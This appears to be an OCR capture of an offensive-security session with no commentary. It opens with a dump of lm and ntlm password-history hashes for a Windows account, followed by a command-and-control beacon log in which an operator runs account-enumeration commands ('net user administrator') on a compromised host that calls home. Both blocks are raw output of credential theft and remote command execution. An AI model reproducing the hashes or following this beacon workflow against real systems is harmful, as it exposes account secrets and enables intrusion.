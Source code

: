 ```
    lm  - 5: 7d3080aedf1c80462dd46c0218328ae8
    lm  - 6: a8d2c3f1f971eccefd218c0c695f35ce
    lm  - 7: 3e6d398b1c03c9533b978bb7312a3062
    lm  - 8: cee1fa1fc21054f025ab28a763841ab5
    lm  - 9: 4ce82b506e7799228e4957b104b3c227
    lm  -10: 683a6c1e87f931aa3881b3a7cdebf03f
    lm  -11: cf966e3b896ed678844fd5e723edfd4f
    lm  -12: fd5495d48410ba21025a5849cb99c1b0
    lm  -13: 69b26b55b8b4d0081a17085343da3d93
    lm  -14: 5cdb89625815d9781886ed84bb438e2c
    lm  -15: 111330f7d9cd2a5b663dd224304e7aeb
    lm  -16: 856fb0e2a0cde2a13db333e9cc50f1c4
    lm  -17: f2d03d6e88ef4879e1ba939b6227e06a
    lm  -18: d0192852e35b2de2101926cea45e0400
    lm  -19: 9488607a098b11f1c808f6876518ec8f
    lm  -20: cb659066a4f7a2f7c979fab9ed978dae
    lm  -21: f4a93494e41cd4afe3e9c5e7ecb73635
    lm  -22: c31d64e8335a7824973703235676f29d
    lm  -23: c6292e753e3e1dd5ffc338fde854674d
    ntlm- 0: 9ec2c1f739466d0d9e1bd7d792bda6fb
    ntlm- 1: 65c125df955595ab339ce3daf7b6134a
    ntlm- 2: 3eb47a38d9915ed44d92e813f73c1a3c
    ntlm- 3: b6eaa6ad675da196ea6edcc80245ef70
    ntlm- 4: a0d3dd384aa4dd28b20a688b237f9008
    ntlm- 5: c9b0ae650afa35fe4e23b952285d1c3f
    ntlm- 6: 1f9b75aa1b748c39b31c4b745c95c071
    ntlm- 7: 9c01a2b05ed82b4532c76efc141c9b7d
    ntlm- 8: 7a68577fa40ab31a1dd9cc3ffdb7e714
    ntlm- 9: 0b61202610be5950653013de65bf2a97
    ntlm-10: bf965175fad8c9a7745c30c535b1a0e5
    ntlm-11: 7d58711c1ffdd7c254be28f0fbde8f8b
    ntlm-12: dbf3ea014a783aeeab1a2b97c42ab020
    ntlm-13: 9b55ef44eb1ec0de4dc3e70b138af39c
    ntlm-14: a2b65fbf9a3db4dd06aad7d826baad13
    ntlm-15: f44e0e9f39e78f6ec020946b8d1b7025
    ntlm-16: fad1d40335ea9eebc6c0da605703d833
    ntlm-17: 33ffb145017a50c09e3237cd9fe6e053
    ntlm-18: 068069020be652f3906e4c87fe0b3eb3
    ntlm-19: a9d41ad8fa30aa9b5eeaed5f0970a6bf
    ntlm-20: 061e8aef3659fd23f89ab5dc3c55afef
    ntlm-21: a982d7bec9ac2aa96f5a23829c14e0f4
    ntlm-22: 2cd4623614bb98fcbb6a3464c88c5252
    ntlm-23: 362e2a464084bbeb95d10d85e470c30e
```

```
[10/06 16:33:31] beacon> shell netgroup administrator
[10/06 16:33:31] [*] Tasked beacon to run: netgroup administrator
[10/06 16:33:32] [+] host called home, sent: 53 bytes
[10/06 16:33:32] [+] received output:
'netgroup' is not recognized as an internal or external command,

operable program or batch file.


[10/06 16:33:41] beacon> shell net user administrator
[10/06 16:33:41] [*] Tasked beacon to run: net user administrator
[10/06 16:33:42] [+] host called home, sent: 53 bytes
[10/06 16:33:42] [+] received output:
User name                    Administrator

Full Name                    

Comment                      Built-in account for administering the computer/domain
```